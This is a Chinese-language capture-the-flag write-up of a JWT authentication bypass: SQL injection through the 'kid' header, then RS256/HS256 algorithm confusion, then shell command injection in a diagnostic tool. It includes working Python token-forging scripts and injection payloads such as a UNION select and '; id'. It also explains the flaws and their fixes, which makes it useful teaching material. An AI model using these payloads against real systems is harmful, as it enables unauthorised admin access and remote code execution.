




题目类型：JWT 认证绕过（kid 注入 + 算法混淆）→ 命令注入
Flag：ZeroGFlag{...}（动态环境，每次重建实例都不一样，只有链路可复用）
和 ZeroG_2026（Stage 2）、Stage2 — Internal Shop 都不是同一题 —— 那两篇是 PHP 弱类型和 SSRF，这篇是 JWT 认证绕过。
题目给的演示账号是 zhangsan / password123，题面特意强调了一句「认证采用 JWT」，所以一进来先把注意力放在令牌上。

登录后能看到的只有公告、通讯录、文档三个模块，都是正常的展示，没有可动的参数。
页面上翻不出东西，先扫目录。
这个站有个坑，会把扫描结果全部污染
任何不存在的路径都返回 200 + 首页（53671 字节）。按状态码筛会得到几百个假的「200」，只能按长度排掉：-mc 200 -fs 53671。
扫出来两个东西：
| 路径 |
是什么 |
/admin.html |
后台入口，直接访问返回「权限不足，仅管理员可访问」 |
/jwks.json |
JWKS，里面是 RSA 公钥（kid: ops-console-2024） |
两个当时都用不上——/admin.html 要管理员身份，jwks.json 是验签用的公钥，不知道往哪使。先记着。
先把登录拿到的令牌拆开：
{"alg":"HS256","kid":"key_002","typ":"JWT"}
{"sub":"zhangsan","name":"张三","role":"user", ...}
kid 是「密钥编号」。key_002 这种命名说明服务端是按 kid 去一张密钥表里挑密钥，而不是全站共用一把。
把 kid 改成一个带单引号的值：
再请求 /admin.html，返回 500，Werkzeug 的调试页把整句 SQL 原样打了出来：

SELECT secret_key FROM jwt_keys WHERE key_id = 'key_002''
结论：kid 是直接字符串拼进 SQL 的，没有参数化。
| 写法 |
WHERE |
查询结果 |
能不能用 |
key_002' OR 1=1 -- |
恒真 |
表里真实存在的密钥 |
❌ 密钥你不知道，签名照样做不出来 |
x' union select 'abc' -- |
查不到 x |
你指定的 abc |
✅ 密钥变成你能签的东西 |
第一条是我第一反应写的 OR 1=1。它的问题在于只改变「选哪些行」，不改变「选出来的值」——服务端拿到的还是真密钥，你手里的签名对不上，403。
UNION 才是把外部值塞进结果集的办法：
kid = x' union select 'abc' --
│ │ └─ 注释掉原本结尾那个单引号（-- 后面必须有空格）
│ └──────── 你指定的密钥，记牢，下一步签名要用
└───────────────────────── 表里不存在的 key，保证第一条 SELECT 返回 0 行
fetchone() 只取第一行，所以前缀必须查不到，否则拿到的还是真密钥，注入白做。
| # |
条件 |
写错会怎样 |
| 1 |
kid 前缀在表里查不到 |
取到真密钥 → 403 |
| 2 |
签名用 abc 当 HMAC 密钥重算 |
签名对不上 → 403 |
| 3 |
payload 里 role 是 admin |
验签过了但角色不对 → 403 |
三种错法返回的页面一模一样，只能逐条核对，不能靠试。
令牌用脚本生成，不要手改：
import base64, hmac, hashlib, json, time
SECRET = "abc" # 必须和 union select 里那个字符串一致
KID = "x' union select '" + SECRET + "' -- "
b64 = lambda b: base64.urlsafe_b64encode(b).rstrip(b"=")
hdr = {"alg": "HS256", "typ": "JWT", "kid": KID}
now = int(time.time())
pay = {"sub": "zhangsan", "name": "张三", "role": "admin", "iat": now, "exp": now + 3600}
seg = (b64(json.dumps(hdr, separators=(",", ":")).encode()) + b"."
+ b64(json.dumps(pay, separators=(",", ":")).encode()))
sig = b64(hmac.new(SECRET.encode(), seg, hashlib.sha256).digest())
print((seg + b"." + sig).decode())
带上这个 token 访问 /admin.html，进后台：

后台「系统管理」里有个系统诊断工具，输入 127.0.0.1 点执行，返回：
内部服务令牌无效或已过期
注意这条信息：我现在已经是 admin 了，在这个接口面前却一文不值——它根本不查 jwt_keys 那张表，走的是另一套验签。
这时候 jwks.json 派上用场：

HS256（对称） 签名 = HMAC-SHA256(密钥, header.payload)
验签 = 用同一把密钥再算一遍
RS256（非对称） 签名 = RSA-SHA256(私钥, header.payload) ← 只有私钥能签
验签 = RSA-Verify(公钥, 签名) ← 谁都能验
HS256 的密钥是共享的：谁能验，谁就能签。RS256 的公钥是公开的：只能验，不能签。
alg = header["alg"] # ← 这个值是你写的
pub = open("service_public.pem", "rb").read()
if alg == "RS256":
jwt.decode(token, pub, algorithms=["RS256"]) # pub 当公钥用，只能验
elif alg == "HS256": # 「历史兼容」分支
hmac.new(pub, signing_input, sha256) == signature # pub 当共享密钥用，能签
同一个 pub，上面是公钥，下面是共享密钥。只要我把 alg 写成 HS256，再用这份公开的 pub 自己算一个签名，服务端会用同一份 pub 再算一遍，结果必然相等。
jwks.json 里只有 n 和 e，要拼回 PEM（DER → base64 → 加头尾）：
import base64, requests
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers
from cryptography.hazmat.primitives import serialization
j = requests.get(BASE + "/jwks.json", timeout=20).json()["keys"][0]
n = int.from_bytes(base64.urlsafe_b64decode(j["n"] + "=="), "big")
e = int.from_bytes(base64.urlsafe_b64decode(j["e"] + "=="), "big")
pem = RSAPublicNumbers(e, n).public_key().public_bytes(
serialization.Encoding.PEM, serialization.PublicFormat.SubjectPublicKeyInfo)
open("service_public.pem", "wb").write(pem)
HMAC 的密钥必须是 PEM 的原始字节
HMAC 会先把密钥 padding 到 64 字节再算，密钥里每一个字节都参与运算：
- 去掉结尾的
\n → 变了
\n 换成 \r\n → 变了- 只取中间的 base64 段、或改用 DER → 变了
差一个换行，服务端算出来的就和你算出来的不是一个值，返回 401。
sig = b64(hmac.new(pem, seg, hashlib.sha256).digest()) # 密钥就是 pem 这个 bytes
header 用 {"alg":"HS256","kid":"ops-console-2024"}，payload 里的 role 必须还是 admin。
返回 200，report 里是：
/bin/sh: 1: ping: not found
那句 ping: not found 说明两件事：容器里没装 ping；这条命令是在 shell 里跑的，而 target 是直接拼进去的：
command_line = "%s -c 3 %s" % (command, target)
subprocess.run(command_line, shell=True, ...)
所以 target 不是只能填 IP：
target = 127.0.0.1; id
→ uid=0(root)
flag 在环境变量 ZeroG_2026_FLAG 和根目录 /flag（400 权限，但进程就是 root，照样能读）。
动态环境的 flag 每次都不一样
重建实例后 flag 会重新生成，所以这题的「答案」不可复用，只有链路可复用。
| 关卡 |
被污染的输入 |
后果 |
| 第一关 |
kid |
拼进 SQL，你决定了「用哪把密钥」 |
| 第二关 |
alg |
决定走哪个验签分支，公钥变成了签名密钥 |
两个字段都是「调用方送来的元数据」，服务端却把它当成了自己的配置。 以后读代码时看到「从请求里取字段来决定验签路径」，就该警觉。
正确写法就一句：算法白名单要按密钥来定，一把公钥只允许用于 RS256，不许跨算法家族复用。
jwt.decode(token, pub, algorithms=["RS256"]) # 算法由服务端决定，不是 token
三个坑，全在工具上，不在原理上
① 手改 token
在编辑器里手动改 base64 段，结果丢了两个 .、payload 段的字符被改乱、末尾还多了 ==。服务端 split(".") 只拿到一段，直接判无效。
所以看到 403 要先分清：解析失败和验签失败返回的是同一个页面。
② 改了 payload 忘了重签
改完 role 就用原来的签名发出去，永远 403。判断方法很土但有效：新 token 的第三段必须和上一轮的不一样。
③ curl 漏了 -H
curl.exe -k -i "URL" "Cookie: xxx" —— 第二个参数被当成第二个 URL，报 URL rejected: Malformed input to a URL function，而那个 403 其实是「没带 cookie」的请求返回的。
结论：token、签名、编码这类东西一律用脚本生成，不要手抄。手打省下的十秒钟，后面要用四十分钟还。